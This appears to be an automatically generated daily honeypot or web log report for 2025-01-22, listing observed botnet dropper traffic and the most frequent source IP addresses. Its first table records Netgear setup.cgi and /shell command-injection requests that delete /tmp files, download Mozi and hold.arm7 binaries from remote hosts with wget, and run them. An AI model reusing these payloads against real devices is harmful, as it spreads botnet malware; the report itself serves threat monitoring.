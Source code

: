 ```yaml
---
title: "Report: 2025-01-22 "
date: 2025-01-22
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-22
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 115.63.54.156  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.63.54.156:43864/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                              |
|  1 | 175.107.36.196 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.107.36.196:49601/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                             |
|  2 | 60.18.106.82   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://60.18.106.82:48751/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                               |
|  3 | 185.196.10.129 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1 |
|  4 | 45.178.251.176 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.178.251.176:11885/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   607 | 149.88.26.179   |
|   1 |                    86 | 112.95.227.2    |
|   2 |                    45 | 60.13.146.4     |
|   3 |                    45 | 147.93.1.100    |
|   4 |                    45 | 4.213.162.155   |
|   5 |                    44 | 92.255.57.58    |
|   6 |                    29 | 146.19.24.168   |
|   7 |                    28 | 95.214.55.39    |
|   8 |                    28 | 212.227.201.53  |
|   9 |                    25 | 185.196.220.253 |
|  10 |                    25 | 5.181.190.248   |
|  11 |                    24 | 95.214.55.43    |
|  12 |                    24 | 78.153.140.148  |
|  13 |                    23 | 162.243.49.36   |
|  14 |                    18 | 179.43.191.146  |
|  15 |                    18 | 46.19.138.234   |
|  16 |                    16 | 152.32.188.225  |